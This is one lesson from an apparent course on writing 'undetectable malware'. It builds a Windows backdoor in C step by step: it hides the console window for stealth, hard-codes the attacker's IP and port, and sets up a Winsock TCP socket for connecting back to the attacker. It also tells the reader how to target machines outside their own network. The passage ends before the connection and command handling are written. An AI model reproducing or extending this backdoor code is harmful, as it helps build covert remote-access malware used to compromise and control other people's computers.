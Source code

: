 ```yaml
---
title: Creating our socket object
course: undetectable_malware
section: "Coding our malware"
layout: lesson
---
```


Let's create the socket which will allow us to connect our server and our
client.

The first thing we'll need is to create a structure called "_ServAddr_" whose type
will also be "_sockaddr_in_". In C, a structure is defined and called as it is
known as classes in other languages. We will also define the port in which the
server is being executed, to do so, we'll create a variable called "_ServPort_"
whose type is an "_unsigned int_".

The reason why we are creating these variables, is because we'll need to define
both the IP address and the port in which our backdoor will perform the
connection to send and receive data.

Let's create a new variable called "_ServIP_" whose type will be the pointer to
a char. The code we've written in this lesson so far looks like this:

```c
struct sockaddr_in ServAddr;
unsigned short ServPort;
char *ServIP;
```

> Tip: For those who are not familiriased with C-based languages programming, a
> pointer is a variable that references a block or a space in memory.

The last variable we'll need to create so far, will be called "_wsaData_" and
its type will be "**WSADATA**". **WSADATA** is a structure that contains
information about Windows sockets, so this is something we'll need to stablish a
connection through sockets between server and client.

Once we've properly defined the previously mentioned variables, we'll set to
"_ServIP_" the IP address of the machine that will be sending data to the
infected device, that's you, the attacker. If you are going to be using virtual
machines to perform tests, you must specify the IP address of the device you
will be using, you can see your IP address by executing "`ifconfig`" in a
terminal emulator, there will appear all of the network interfaces available,
you should use the IP address of the interface you will be using when running
the tests. If you will infect a windows Machine that is not in your local
network, you must use your public IP address, you can get it by running
"`curl icanhazip.com`" in a shell.

To assign the value to "_ServIP_", in a new line, type:

```c
ServIP = "[IP ADDRESS]"
```

In the same way, we'll specify the port in which the server will be awaiting for
the connection. To do so, we will need to assign a value to "_ServPort_" too,
but, unlike "_ServIP_" this one is not of type "_char_", this one is "_int_",
which means, that "_ServPort_" will only accept integer numbers. You can choose
the port you want as long as it remains open and is not being used by some other
application. I'll be using the port 50005.

Once we have stored that information into our variables, we'll use the
"_WSAStartup_" inside of an "_if_" statement as it is shown below:

```c
if(WSAStartup()) {
}
```

To this function, we'll need to pass some arguments, the first one is a function
called "**MAKEWORD**", as it is a function, we'll open another pair of brackets,
inside of them we'll write "**2,0**" and the second argument that "_WSAStartup_"
requires is the memory block that "_wsaData_" is in.

> To get the block of memory of a pointer variable, you write "&" before the
> variable name, for example: "&wsaData"

We'll check if "_WSAStartup(MAKEWORD(2,0), &wsaData)_" is different to zero, if
it is we'll exit the program. This if statement looks like this:

```c
if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
  exit(1);
}
```

What we are doing, is check if the value that the function "_WSAStartup_"
returns is equals to zero. If it is, what is inside of the **if** block will not
be executed as the condition is not true, but if it is not zero, what is inside
of the curly brackets ("{}") will be executed, which means, the program will be
stopped.

Once the program was being initialised properly and its execution was not
stopped, we'll create a socket object. To do, we'll go out of the main function
"WinMain" and we will define it there. Why? Simple, because we will need that
same socket outside of the "_WinMain_" function, if we define it there, it would
be only accessible for what is inside of that function.

When we are outside of the function, we will create an integer variable called
"_sock_".

Now, once we have defined our "_sock_" variable, we'll return to the "_WinMain_"
function and right below of our "**if**" comparison we'll assign the following
value to sock:

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

We are defining sock as a socket by using the function "_socket_", this function
takes three arguments, the first one "**AF_INET**" represents an IPv4
connection, the second parameter "**SOCK_STREAM**" represents a TCP connection
and the third parameter is "0" as we don't need anything else.

What we will need to do later, is to modify the paramters of "_ServAddr_" as
it inherits the "_sockaddr_in_" values, but before we do that, we'll need to
turn into zeroes all of them, to do so we will need the "_memset_" function.
This function takes three parameters, the first is the memory block that
"_ServAddr_" uses (remember to use the "&"), the second parameter will be "0" as
we want to turn all of the memory space that "_ServAddr_" uses into zeros and
the third, is the size of the memory that is being use by "_ServAddr_" you can
get it by simple passing "**sizeof** _ServAddr_". That line would look like
this:

```c
memset(&ServAddr, 0, sizeof(ServAddr));
```

Now let's add custom values to the "_ServAddr_" variables (to access to them
we'll need to use a dot "." after the variable name). The first is
"_sin_family_" whose value will be set to "**AF_INET**", the second one is
"_sin_addr.s_addr_" whose value will be the server's IP address. We can't use
our variable "_ServIP_" as it is an string and not an IP address (that our C
program can recognise), so we'll convert it using a function called "_inet_addr_"
and pass "_ServIP_" as argument. The last parameter will be "_sin_port_" and as
it happened with the IP address we can't simply use our variable "_ServPort_",
instead of using "_inet_addr_" we will use "_htons_" and we will pass
"_ServPort_" as argument, in that way, our C program will recognise and be able
to work with our port.

Our code so far looks like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);
}
```

